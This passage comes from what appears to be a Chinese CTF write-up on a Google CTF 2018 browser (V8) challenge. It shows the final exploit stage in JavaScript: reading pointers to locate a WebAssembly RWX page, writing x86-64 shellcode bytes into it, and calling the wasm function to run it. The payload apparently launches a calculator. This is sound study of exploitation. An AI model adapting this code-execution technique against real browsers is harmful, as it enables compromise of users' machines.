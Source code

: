 ```javascript
console.log("[+] find wasm_shared_info : 0x" + hex(wasm_shared_info));

var wasm_data = dataview_read64(wasm_shared_info -1 + 0x8);
console.log("[+] find wasm_data : 0x" + hex(wasm_data));

var wasm_instance = dataview_read64(wasm_data -1 + 0x10);
console.log("[+] find wasm_instance : 0x" + hex(wasm_instance));

var wasm_rwx = dataview_read64(wasm_instance - 1 + 0xe8);
console.log("[+] find wasm_rwx : 0x" + hex(wasm_rwx));


//write shellcode to wasm
var shellcode = [72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72, 184, 46, 121, 98,
96, 109, 98, 1, 1, 72, 49, 4, 36, 72, 184, 47, 117, 115, 114, 47, 98,
105, 110, 80, 72, 137, 231, 104, 59, 49, 1, 1, 129, 52, 36, 1, 1, 1, 1,
72, 184, 68, 73, 83, 80, 76, 65, 89, 61, 80, 49, 210, 82, 106, 8, 90,
72, 1, 226, 82, 72, 137, 226, 72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72,
184, 121, 98, 96, 109, 98, 1, 1, 1, 72, 49, 4, 36, 49, 246, 86, 106, 8,
94, 72, 1, 230, 86, 72, 137, 230, 106, 59, 88, 15, 5];

dataview_write(wasm_rwx, shellcode);

wasm_function();
```



运行效果图：

![image-20200813201506045](..\image\2020-08-12-google-ctf-2018-browser-pwn分析\1.png)

## 参考链接

https://mem2019.github.io/jekyll/update/2019/08/09/Google-CTF-2018-Final-JIT.html